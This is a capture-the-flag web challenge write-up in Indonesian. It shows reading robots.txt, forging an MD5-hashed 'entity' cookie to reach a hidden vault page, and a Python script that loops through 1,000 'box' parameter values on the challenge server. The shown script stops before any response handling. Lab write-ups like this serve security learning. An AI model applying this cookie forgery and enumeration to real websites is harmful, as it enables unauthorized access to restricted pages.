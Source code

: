 <br>

Karena judulnya mengandung kata `robot` jadi awalnya saya coba-coba untuk mencari file [robots.txt](http://103.185.44.232:1507/robots.txt), karena saya pikir itu adalah sebuah clue. Kemudian saya menemukan text ini
```txt
User-agent: *
Disallow: /WangshengFuneralParlor/chamber.php
Disallow: /WangshengFuneralParlor/tips.txt
```
<br>

[Di sini](http://103.185.44.232:1507/WangshengFuneralParlor/tips.txt) terdapat teks yang isinya adalah:
```
Kamu nyari tips? tipsnya adalah... baca deskripsi dengan sangat amat teliti
```
<br>

Lalu saya menyadari kalau terdapat cookie dengan nama `entity` yang berisikan nilai `87b7cb79481f317bde90c116cf36084b`

Lalu setelah saya menggunakan [hash identifier](https://hashes.com/en/tools/hash_identifier) diketahuilah bahwa itu merupakan nilai dari hash md5 yang dimana nilainya adalah `robot`

Lalu saya coba untuk mengubah isi cookienya menjadi `a0e6535a553765a9ba99bd27f85ded73` yang artinya adalah `zhongli`, lalu saya tinggal melakukan refresh terhadap websitenya dan saya di arahkan ke [sini](http://103.185.44.232:1507/InnerChamber/vault.php)
<br><br>
<img width="720" alt="InnerChamber_vault" src="https://github.com/ImJoke/CTF/assets/55929550/17baa669-3f02-4e78-8800-ce73a06a054f">
<br><br>
Saya melihat sepertinya vault.php menerima sebuah paramater berupa box dimana tipenya haruslah sebuah angka, jadi saya ingin coba bagaimana kalau saya memberikan sebuah string dan inilah [outputnya](http://103.185.44.232:1507/InnerChamber/vault.php?box=asd)
<br><br>
<img width="333" alt="InnerChamber_vault_box" src="https://github.com/ImJoke/CTF/assets/55929550/8ba2052e-9a61-4c6e-ac5e-528d361c0b9c">
<br><br>
Oke disini diketahui bahwa ada total 1000 kotak, maka saya membuat sebuah script untuk mendapatkan flagnya


```py
import requests

cookies = {
    'entity': 'a0e6535a553765a9ba99bd27f85ded73',
}

headers = {
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Accept-Language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7,zh-HK;q=0.6,zh;q=0.5,ja-JP;q=0.4,ja;q=0.3',
    'Cache-Control': 'max-age=0',
    'Connection': 'keep-alive',
    'DNT': '1',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36',
}
response1 = requests.get(f'http://103.185.44.232:1507/InnerChamber/vault.php?box=1', cookies=cookies, headers=headers, verify=False)

for i in range(1000):
    response = requests.get(f'http://103.185.44.232:1507/InnerChamber/vault.php?box={i}', cookies=cookies, headers=headers, verify=False)
```